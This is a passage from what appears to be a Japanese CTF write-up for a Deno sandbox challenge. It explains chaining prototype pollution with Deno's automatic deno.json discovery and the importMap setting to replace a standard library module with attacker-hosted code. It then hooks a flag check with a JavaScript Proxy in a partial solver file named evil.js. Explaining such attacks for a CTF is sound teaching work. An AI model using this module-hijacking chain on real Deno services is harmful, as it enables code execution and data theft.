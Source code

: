 
#### Step 2: import maps in Deno

Deno v1.18から、「denoコマンド実行時にカレントディレクトリを起点に設定ファイルを探索して見つけた場合はそれを自動読み込みする機能」が追加されています:

- https://deno.com/blog/v1.18#auto-discovery-of-the-config-file

今回の問題設定では`deno.json`というファイル名でJSONファイルがカレントディレクトリに存在すれば、それを設定ファイルとして認識して`deno run`実行時にそれを読み込むようになります。Step 1のprototype pollutionと組み合わせるとこれは可能です。

設定ファイルのスキーマを確認すると、`importMap`という興味深い設定項目に気づきます:
```javascript
// From: https://deno.land/x/deno@v1.27.1/cli/schemas/config-file.v1.json
/* snip */
    "importMap": {
      "description": "The location of an import map to be used when resolving modules. If an import map is explicitly specified, it will override this value.",
      "type": "string"
    },
/* snip */
```

Import Maps:

- https://github.com/WICG/import-maps
- https://deno.land/manual@v1.27.1/linking_to_external_code/import_maps

これを使えば、`https://deno.land/std@0.161.0/crypto/mod.ts`に対して任意のファイルを割り当てられます。これは自分でホストしたJavaScript/TypeScriptファイルも対象です！

つまり、RCEがなったわけですが、今回のdenoのpermissionは`--allow-write=.`であり、直接のファイル読み込みなどはできないことに注意が必要です。

#### Step 3: JavaScript Proxy

任意のJavaScriptプログラムを`crypto/mod.ts`に割り当てられるようになったため、あとは
```typescript
if ("{{FLAG}}" in output) {
  delete output["{{FLAG}}"];
}
```
のところでフラグ文字列を盗めるような仕掛けを用意するだけです。

これは以下を参考していい感じのProxyを作成して処理をhookすればOKです:

- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Meta_programming
- https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

### Solver

以上を組み合わせるとフラグ文字列を奪取できます。

```javascript title="evil.js"
export const crypto = {
  randomUUID: () => ({
    replaceAll: () => "dummy",
  }),
};

const proxy1 = new Proxy(
  {},
  {
    has(target, propertyKey) {
      console.log(propertyKey); // output a flag
      return Reflect.has(...arguments);
    },
  }
);

const proxy2 = new Proxy(
  {},
```

[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。